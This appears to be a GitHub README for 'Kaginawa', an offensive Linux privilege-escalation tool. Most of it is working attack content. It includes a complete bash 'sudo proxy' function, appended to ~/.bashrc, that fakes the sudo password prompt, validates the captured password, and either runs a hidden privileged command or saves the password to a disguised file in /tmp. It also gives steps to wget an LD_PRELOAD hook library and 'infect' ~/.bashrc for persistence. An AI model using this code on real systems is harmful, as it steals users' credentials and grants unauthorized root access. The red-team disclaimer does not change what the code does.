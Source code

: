 # Kaginawa

A hook for helping privilege escalation

## Scenario

You have code execution on an linux account with sudo privileges but cannot find a privilege escalation exploit.

A common technique in this case is creating a "sudo proxy", which is basically a function that wraps the sudo command to capture the user's credentials or execute a privileged action.

For example, the following function can be appended to the ~/.bashrc:

```bash
REAL_SUDO=$(which sudo)
ACTION=""

sudo() {
  for ((i=0; i<3; i++)); do
    echo -n "[sudo] password for $USER: "
    read -s user_pass
    echo ""

    # Validate password
    echo "$user_pass" | $REAL_SUDO -S -v >/dev/null 2>&1
    if [ $? -ne 0 ]; then
      echo "Sorry, try again."
    else
      # Run ACTION if defined
      if [ -n "$ACTION" ]; then
        echo "$user_pass" | $REAL_SUDO -S "$ACTION" >/dev/null 2>&1 &
      else
        echo "$user_pass" >> /tmp/.X1027-lock
      fi

      # Run original command
      echo "$user_pass" | $REAL_SUDO -S -- "$@"
      break
    fi
  done
}
```

The very same attack can be performed via LD_PRELOAD hooks. Kaginawa hooks the bash's execve wrapper and run a custom command stored at "fake_argv".

- First Step: Drop kaginawa into target system. For example:

```bash
wget https://example.com/kaginawa.so
```

- Second Step: Infect ~/.bashrc

```bash
echo 'LD_PRELOAD=/full/path/to/kagianawa.so bash' >> ~/.bashrc
```

- Third Step: Patience

## Disclaimer

This tool was developed for authorized adversary simulations and penetration testing in controlled environments. 
It is intended for use only on systems you own or have explicit permission to test. 
Use responsibly and at your own risk.
